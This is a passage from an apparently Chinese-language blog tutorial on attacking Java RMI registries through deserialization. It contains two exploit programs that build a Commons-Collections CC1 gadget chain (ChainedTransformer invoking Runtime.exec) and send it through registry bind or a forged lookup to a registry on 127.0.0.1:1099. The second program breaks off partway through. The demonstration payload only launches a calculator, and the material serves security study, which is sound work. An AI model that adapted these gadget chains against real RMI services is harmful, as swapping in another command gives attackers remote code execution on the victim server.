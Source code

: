 ```
  
public class AttackRegistryEXP {  
    public static void main(String[] args) throws Exception{  
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);  
 InvocationHandler handler = (InvocationHandler) CC1();  
 Remote remote = Remote.class.cast(Proxy.newProxyInstance(  
                Remote.class.getClassLoader(),new Class[] { Remote.class }, handler));  
 registry.bind("test",remote);  
 }  
  
    public static Object CC1() throws Exception{  
        Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数  
 new InvokerTransformer("getMethod",  
 new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),  
 new InvokerTransformer("invoke"  
 , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),  
 new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 hashMap.put("value","drunkbaby");  
 Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);  
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor aihConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 aihConstructor.setAccessible(true);  
 Object o = aihConstructor.newInstance(Target.class, transformedMap);  
 return o;  
 }  
}
```

Remote.class.cast 这里实际上是将一个代理对象转换为了 Remote 对象，因为 `bind()` 方法这里需要传入 Remote 对象。

- rebind 的攻击也是如此，将 `registry.bind("test",remote);` 替换为 `rebind()` 方法即可。

#### unbind 或 lookup 的攻击

先看一下 unbind 和 lookup 的源码部分，可不可以进行反序列化的攻击

![img](https://drun1baby.top/2022/07/23/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BRMI%E4%B8%93%E9%A2%9802-RMI%E7%9A%84%E5%87%A0%E7%A7%8D%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F/lookupCode.png)![img](https://drun1baby.top/2022/07/23/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BRMI%E4%B8%93%E9%A2%9802-RMI%E7%9A%84%E5%87%A0%E7%A7%8D%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F/unbindCode.png)

因为 unbind 和 lookup 的最终利用和思想都是一样的，这里我们就只拿 lookup 这里来学习。

大致的思路还是和 `bind/rebind` 思路是一样的，但是 lookup 这里只可以传入 `String` 类型，这里我们可以通过伪造 `lookup` 连接请求进行利用，修改 `lookup` 方法代码使其可以传入对象。

我们可以利用反射来实现这种攻击。

EXP 如下

JAVA

```
public class AttackRegistryEXP02 {  
    public static void main(String[] args) throws Exception{  
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);  
 InvocationHandler handler = (InvocationHandler) CC1();  
 Remote remote = Remote.class.cast(Proxy.newProxyInstance(  
                Remote.class.getClassLoader(),new Class[] { Remote.class }, handler));  
  
 Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();  
 fields_0[0].setAccessible(true);  
 UnicastRef ref = (UnicastRef) fields_0[0].get(registry);  
  
 //获取operations  
  
```